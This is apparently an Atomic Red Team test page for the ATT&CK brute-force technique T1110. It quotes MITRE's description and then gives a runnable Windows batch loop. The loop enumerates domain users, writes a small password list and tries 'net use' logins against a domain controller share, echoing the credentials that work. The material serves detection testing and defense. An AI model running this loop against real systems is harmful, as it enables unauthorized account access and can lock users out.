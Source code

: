 ```yaml
---
title: T1110 Brute Force
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)

<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.
<br/>
<br/>  
<a href="https://attack.mitre.org/techniques/T1003">Credential Dumping</a> is used to obtain password hashes, this may only get an adversary so far when <a href="https://attack.mitre.org/techniques/T1075">Pass the Hash</a> is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table to crack hashes. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (Citation: Wikipedia Password cracking)
<br/>
<br/>  
Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)
<br/>
<br/>  
A related technique called password spraying uses one password (e.g. 'Password01'), or a small list of passwords, that matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)
<br/>
<br/>  
Typically, management services over commonly used ports are used when password spraying. Commonly targeted services include the following:
<br/>
  
- SSH (22/TCP)<br/>
- Telnet (23/TCP)<br/>
- FTP (21/TCP)<br/>
- NetBIOS / SMB / Samba (139/TCP & 445/TCP)<br/>
- LDAP (389/TCP)<br/>
- Kerberos (88/TCP)<br/>
- RDP / Terminal Services (3389/TCP)<br/>
- HTTP/HTTP Management Services (80/TCP & 443/TCP)<br/>
- MSSQL (1433/TCP)<br/>
- Oracle (1521/TCP)<br/>
- MySQL (3306/TCP)<br/>
- VNC (5900/TCP)<br/>
<br/>

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- Atomic Test #1 - Brute Force Credentials

<br/>

## Atomic Test #1 - Brute Force Credentials
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | \\COMPANYDC1\IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Run it with `command_prompt`!

```
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```
